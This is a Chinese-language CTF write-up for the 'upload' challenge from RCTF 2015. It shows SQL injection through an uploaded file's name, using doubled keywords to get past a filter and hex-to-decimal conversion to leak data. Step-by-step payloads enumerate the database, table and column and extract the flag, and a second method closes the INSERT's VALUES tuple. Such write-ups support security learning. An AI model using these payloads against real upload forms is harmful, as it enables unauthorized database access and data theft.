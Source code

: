 题目网址：<https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4770>

## upload（RCTF 2015）

#### 做法：

利用文件名进行sql注入

#### 思路：

推测后台的insert插入语句为：

`insert into 表名('filename',...) values('你上传的文件名',...);`



构造以下语句进行注入：

`文件名'+(selselectect conv(substr(hex(database()),1,12),16,10))+'.jpg`



拼接后的sql语句为：
`...values('文件名'+(selselectect conv(substr(hex(database()),1,12),16,10))+'.jpg',...);`



> CONV(n,from_radix,to_radix)：用于将n从from_radix进制转到to_radix进制
>
> substr(str,start,length)：将str从start长度为length分割
>
> hex(str)：将str转成十六进制



#### 一点疑问&细节：

1. select、from被过滤，用双写绕过

2. 为什么不直接采用`sselectelect database()`进行注入：

   ​	部分注入回显：

   ​		'+(selselectect dAtabase())+'.jpg 				   		  			      =>  0

   ​		'+(selecselectt substr(dAtabase(),1,12))+'.jpg		 			     =>  0

   ​		'+(selecselectt substr(hex(dAtabase()),1,12))+'.jpg                 =>  7765625

   > 第三句代码应该回显‘7765625f7570’，可能遇到’f‘导致截断，所以需要conv转成十进制输出

3. substr中的长度限制：不限制长度会导致返回值太大，系统使用科学计数法（xx **e** xxxxx）表示。



### 题目限制条件

1. 回显不能出现字母 ---》 转成十进制
2. 要使注入后的语句正确闭合 ---》猜测语句结构，正确闭合
3. 防止回显数据过大使得程序返回科学计数型的结果 ---》 限制回显长度



### 步骤

上传利用语句注入的文件名在上传文件中进行注入，对substr的截取位置由读者自行调整直至获得完整名称

```Mysql
1. 库名
file_name' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
# 得到库名：web_upload

2. 表名
file_name'+(seleselectct+conv(substr(hex((selselectect table_name frfromom information_schema.tables where table_schema = 'web_upload' limit 1,1)),1,12),16,10))+'.jpg
# 得到表名：hello_flag_is_here

3. 字段
file_name'+(seleselectct+conv(substr(hex((selselectect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = 'hello_flag_is_here' limit 1,1)),1,12),16,10))+'.jpg
# 得到字段名：i_am_flag

4. 获得数据
file_name'+(seleselectct+CONV(substr(hex((seselectlect i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10))+'.jpg
# 得到flag：!!_@m_Th.e_F!lag
```



## 其他做法（更简单）：

如果对表的结构猜测得当，很快就能解决这道题目，参考某dalao的wp中写出的结构：

`(filename.jpg,uid,uid)`

#### 语句构造

在上传文件的时候，网站会回显uid给我们，所以要先上传一个文件，获取uid，觉得网页跳转太快的可以抓包

我们构造`(filename,'uid','uid'),((database()),'uid','uid')#.jpg ','uid','uid');`

拼接后的语句为`(filename,'uid','uid'),((database()),'uid','uid')`

对应的回显就是我们上传文件的filename和database()，说明注入成功

## 步骤

我们对这个语句进行注入构造，uid自行替换

```Mysql
1. 库名
filename','uid','uid'),((database()),'uid','uid')#.jpg
# 例：filename','1661','1661'),((database()),'1661','1661')#.jpg

2. 表名
filename','uid','uid'),((selselectect group_concat(table_name) frfromom information_schema.tables where table_schema = 'web_upload'),'uid','uid')#.jpg
#'--------------------------------分割行

3. 字段名
filename','uid','uid'),((selselectect group_concat(column_name) frfromom information_schema.columns where table_name = 'hello_flag_is_here'),'uid','uid')#.jpg
#'--------------------------------分割行

4. 获得数据
filename','uid','uid'),((selselectect i_am_flag frfromom hello_flag_is_here),'uid','uid')#.jpg

```







参考连接：

<https://www.cnblogs.com/sharpff/p/10728498.html>

<https://blog.csdn.net/qq_42181428/article/details/89345094#upload_168>
